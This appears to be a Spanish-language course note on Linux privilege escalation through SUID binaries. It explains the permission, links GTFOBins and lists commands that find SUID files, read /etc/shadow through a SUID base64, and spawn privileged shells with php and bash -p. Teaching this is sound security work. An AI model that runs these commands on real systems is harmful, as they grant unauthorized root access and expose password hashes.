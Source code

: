 # Abusando de privilegios SUID

Tags: #Linux #SUID  #Escalada #Root #Privilegios 

Un privilegio **SUID** (**Set User ID**) es un permiso especial que se puede establecer en un archivo binario en sistemas Unix/Linux. Este permiso le da al usuario que ejecuta el archivo los **mismos privilegios** que el **propietario** del archivo.

Por ejemplo, si un archivo binario tiene establecido el permiso SUID y es propiedad del usuario root, cualquier usuario que lo ejecute adquirirá temporalmente los mismos privilegios que el usuario root, lo que le permitirá realizar acciones que normalmente no podría hacer como un usuario normal.

El abuso de privilegios SUID es una técnica utilizada por los atacantes para elevar su nivel de acceso en un sistema comprometido. Si un atacante es capaz de obtener acceso a un archivo binario con permisos SUID, puede ejecutar comandos con privilegios especiales y realizar acciones maliciosas en el sistema.

Para prevenir el abuso de privilegios SUID, se recomienda limitar el número de archivos con permisos SUID y asegurarse de que solo se otorguen a archivos que requieran este permiso para funcionar correctamente. Además, es importante monitorear regularmente el sistema para detectar cambios inesperados en los permisos de los archivos y para buscar posibles brechas de seguridad.

Una vez más, se os comparte el mismo recurso que en la clase anterior, dado que esta página también contempla los binarios con permiso SUID que potencialmente pueden ser explotados:

- **GTFOBins**: [https://gtfobins.github.io](https://gtfobins.github.io/)


## SUID

En la pagina de GTFOBins buscamos el comando y la pestaña de **SUID**
* El comando que tiene un privilegios SUID contiene una **S**  o 4755
* Este tipo de comandos afecta a nivel de sistema a todos los usuarios 

```bash 
❯ find / -perm -4000 2>/dev/null                  # Para ver que comandos son SUID, los buscamos desde la raiz 
❯ find / -perm -4000 -ls 2>/dev/null              # Para ver que comandos son SUID, los buscamos desde la raiz y ademas miramos el privilegio
❯ find / -perm -u=s -type f 2>/dev/null           # Buscar comandos SUID desde la raiz 
❯ find \-user <username> 2>/dev/null              # Para ver que comandos donde el propiertario es es usuario

# Podemos encontrar comandos asi:
-rwsr-xr-x 1 root root 8756 Feb 7 2022 /usr/bin/base64
-rwsr-xr-x 1 root root 8756 Feb 9 2022 /usr/bin/php8.1

# Podremos ejecutar el comando si es SUID como el propietario de forma temporal sin passwd
❯ base64 /etc/shadow | base64 -d                  # Podriamos ver el /etc/shadow

❯ php -r "pcntl_exec('/bin/sh', ['-p']);"         # Podemos obtener una consola interactiva
❯ bash -p                                         # Obtener la consola bash, p = privilege
```

